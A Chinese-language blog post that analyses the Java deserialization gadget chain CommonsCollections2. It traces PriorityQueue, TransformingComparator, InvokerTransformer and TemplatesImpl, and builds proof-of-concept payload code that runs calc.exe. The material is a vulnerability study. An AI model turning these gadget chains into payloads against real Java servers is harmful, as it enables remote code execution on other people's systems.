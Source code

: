 ```yaml
---
layout: post  
title: "java反序列化漏洞-玄铁重剑之CommonsCollection(下)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  玄铁重剑，是金庸小说笔下第一神剑。由「玄铁」制成，重八八六十四斤；由「剑魔」独孤求败所使，四十岁前持之无敌于天下。 独孤求败逝去后为杨过所得，并由独孤求败的「朋友」神雕引导，之后在神雕的指导下，也根据独孤求败的独门秘籍及练功方法，练成了一身天下无敌的剑法及内功心法。
##  主角:
 CommonsCollection, commons-collections.jar
##  介绍:
Java Collections Framework 是JDK 1.2中的一个重要组成部分。它增加了许多强大的数据结构，加速了最重要的Java应用程序的开发。从那时起，它已经成为Java中集合处理的公认标准。官网介绍如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/38664389.jpg)
Commons Collections使用场景很广，很多商业,开源项目都使用到了commons-collections.jar。
很多组件，容器，cms(诸如WebLogic、WebSphere、JBoss、Jenkins、OpenNMS等)的rce漏洞都和Commons Collections反序列被披露事件有关。
##  正文:
  再讲一个执行链，其实在ysoserial中，CommonsCollections2提到了，通过上一篇的分析，我们得知执行链很多。接下来接着分析另外一个执行链, 需要借助的是PriorityQueue这个类，这里我找到了一条执行链
PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->InvokerTransformer.transformat()
这和ysoserial提到的是一样的, 下面我们自己来尝试构造下poc。
通过分析源码，我们可构造出TransformingComparator.compare的大致结构如下:
	
	public static void main(final String[] args) throws Exception {
       runcompare();
	}
	public static void runcompare(){
	       InvokerTransformer invokerTransformer= getInvokerTransformer();
	       TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
	       Runtime runtime1 = Runtime.getRuntime();
	       transformingComparator.compare(runtime1, null);
	
	   }
	   public static InvokerTransformer getInvokerTransformer(){
	       String[] cmds = new String[]{"calc.exe"};
	       InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	       return invokerTransformer;
	   }
	
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/92800586.jpg)
其中PriorityQueue.siftDownUsingComparator调用compare的地方如下，查看源码可知，我们要将runtime对象放在 queue中。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/16223501.jpg)
通过分析源码得知， 必须要给comparator赋值，comparator的赋值操作可以在构造函数里面进行。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/55297502.jpg)
通过最终分析组合出如下poc:
	
	public Queue<Object> getObject(final String command) throws Exception {
        PriorityQueue queue = getPriorityQueue();
        return queue;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections2.class, args);
    }
    public static PriorityQueue getPriorityQueue() throws Exception {
        TransformingComparator transformingComparator = getTransformingComparator();
        PriorityQueue priorityQueue = new PriorityQueue(1, transformingComparator);
        priorityQueue.add(Runtime.getRuntime());
        return priorityQueue;
    }

    public static TransformingComparator getTransformingComparator(){
        InvokerTransformer invokerTransformer= getInvokerTransformer();
        TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
        return transformingComparator;

    }
    public static InvokerTransformer getInvokerTransformer(){
        String[] cmds = new String[]{"calc.exe"};
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
        return invokerTransformer;
    }
	}
	
但是在序列化的时候就出错了，2333，
很显然，Runtime不能直接序列化，因为他没有实现接口。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/33519718.jpg)
那么想通过类似于CommonsCollection1的方式去执行函数，即
	
	inal Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{
	String.class, Class[].class}, new Object[]{
	"getRuntime", new Class[0]}),
	new InvokerTransformer("invoke", new Class[]{
	Object.class, Object[].class}, new Object[]{
	null, new Object[0]}),
	new InvokerTransformer("exec",
	new Class[]{String.class}, execArgs),
	new ConstantTransformer(1)};
	final Transformer transformerChain = new ChainedTransformer(
	new Transformer[]{new ConstantTransformer(1)});
	Transformer transformerChain = new ChainedTransformer(transformers);
	
然而并不行，这个类在commons-collections4.jar中不具有。最终还是看了一下官方的doc，发现其利用的到是TemplatesImpl类。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/13395039.jpg)
笔者记得在廖新喜师傅在分析fastsjon反序列化的时候也提到过这个，[http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)
我们需要将一个编译成class 文件的类进行base64编码，并且赋值给_bytecodes，关于怎么做可以参考廖师傅的文章。我这里讲一下pwntester是怎么做的，这种做法需要借助ClassPool。
###  浅谈ClassPool怎么用  
classPool简单用法如下:
	
	public class Main {
    public static void main(String[] args){
        try
        {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("net.codersec.Person");
            CtField ctField = new CtField(CtClass.intType, "name", ctClass);
            ctField.setModifiers(Modifier.PUBLIC);
            ctClass.addField(ctField);
            byte[] bytes = ctClass.toBytecode();
            FileOutputStream fileOutputStream = new FileOutputStream(new File("Person.class"));
            fileOutputStream.write(bytes);
            fileOutputStream.close();
        }catch (Exception e){
          e.printStackTrace();
        }
    }
	}
	
运行上面的代码就会生成一个class文件，反编译结果如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/43466655.jpg)
这里有一个小技巧，就是在Class.newInstance的时候，可以在Class的构造函数里面加要执行的恶意代码，但是也可以 通过insertAfter()将要执行的代码在构造函数运行后运行。
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/20467796.jpg)
其生成的代码如下:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/93917050.jpg)
最终调试完成之后poc如下:
	
	final Object templates = Gadgets.createTemplatesImpl(command);
	final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
	final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
	queue.add(templates);
	queue.add(templates);
	Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
	final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
	return queue;
	
其中用到的是函数 TemplatesImpl.newTransformer，而不是TemplatesImpl.getTransletInstance，因为getTransletInstance权限是private不能被直接反射?试了几个public权限的函数，比如getOutputProperties，newTransformer都可以。 且getOutputProperties，newTransformer中都有调用getTransletInstance。
##  拓展学习
  其实除了InvokerTransformer.transformat，还可以利用InstantiateTransformer.transformat()，其中collcetion5就是利用了com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter构造函数中调用了TemplatesImpl.getTransletInstance()
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/79221799.jpg)
  ![](http://ohsqlm7gj.bkt.clouddn.com/18-2-1/65780167.jpg)
  其调用链更复杂
PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->InstantiateTransformer.transformat()->com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.newInstance()->TemplatesImpl.getTransletInstance()->Class.newInstance()

##  参考链接  
http://blog.csdn.net/a394268045/article/details/51996082
http://blog.csdn.net/yyywyr/article/details/16984335


